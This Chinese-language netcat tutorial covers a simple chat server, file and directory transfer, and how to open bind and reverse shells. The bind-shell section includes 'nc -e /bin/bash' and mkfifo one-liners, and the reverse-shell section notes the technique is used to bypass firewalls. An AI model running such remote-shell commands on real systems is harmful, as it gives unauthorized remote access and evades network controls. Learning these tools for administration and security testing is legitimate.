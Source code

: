 # 多场景使用

## 实现Chat Server

netcat提供了这样一种方法，只需要创建一个`Chat`服务器，一个预先确定好的端口

- Server

`nc -l 1567`

> netcat 命令在1567端口启动了一个tcp 服务器，所有的标准输出和输入会输出到该端口

输出和输入都在此shell中展示。

- Client

`nc 172.31.100.7 1567`

## 文件传输

假设，想要传一个文件file.txt 从A 到B。A或者B都可以作为服务器或者客户端，以下，让A作为服务器，B为客户端。

- Server

`nc -l 1567 < file.txt`

- Client

`nc -n 172.31.100.7 1567 > file.txt`

1. 这里创建了一个服务器在A上并且重定向netcat的输入为文件file.txt，那么当任何成功连接到该端口，netcat会发送file的文件内容。
2. 在客户端重定向输出到file.txt，当B连接到A，A发送文件内容，B保存文件内容到file.txt.

## 目录传输

发送一个文件很简单，但是如果想要发送多个文件，或者整个目录，只需要使用压缩工具tar，压缩后发送压缩包。

- Server

`tar -cvf – dir_name | nc -l 1567`

- Client

`nc -n 172.31.100.7 1567 | tar -xvf -`

1. 这里在A服务器上，创建一个tar归档包并且通过-在控制台重定向它，
2. 然后使用管道，重定向给netcat，netcat可以通过网络发送它。
3. 在客户端下载该压缩包通过netcat 管道然后打开文件。

----

## 打开一个shell

已经用过远程shell-使用telnet和ssh，但是如果这两个命令没有安装并且没有权限安装他们，也可以使用`netcat`创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

- Server

`nc -l 1567 -e /bin/bash -i`

- Client
`nc 172.31.100.7 1567`

1. 这里已经创建了一个`netcat`服务器并且表示当它连接成功时执行`/bin/bash`

2. 假如`netcat` 不支持`-c` 或者 `-e` 参数（openbsd netcat）,仍然能够创建远程shell

- Server

`mkfifo /tmp/tmp_fifo`
`cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo`

1. 这里创建了一个`fifo`文件，然后使用管道命令把这个`fifo`文件内容定向到`shell 2>&1`中。
2. 是用来重定向标准错误输出和标准输出，然后管道到`netcat` 运行的端口`1567`上。
3. 至此，已经把netcat的输出重定向到fifo文件中。

### 说明：

1. 从网络收到的输入写到fifo文件中

2. cat 命令读取fifo文件并且其内容发送给sh命令

3. sh命令进程受到输入并把它写回到netcat。

4. netcat 通过网络发送输出到client

> 至于为什么会成功是因为管道使命令平行执行
> fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件
> cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

- Client

`nc -n 172.31.100.7 1567`
会得到一个shell提示符在客户端

## 反向shell

反向shell是指在客户端打开的`shell`
反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

- 服务端

`nc -l 1567`

在客户端，简单地告诉`netcat`在连接完成后，执行shell。

- 客户端

`nc 172.31.100.7 1567 -e /bin/bash`

> 反向shell经常被用来绕过防火墙的限制，如阻止入站连接。

例如，有一个专用IP地址为172.31.100.7
使用代理服务器连接到外部网络。
如果想从网络外部访问 这台机器如`1.2.3.4`的shell，那么会用反向外壳用于这一目的。
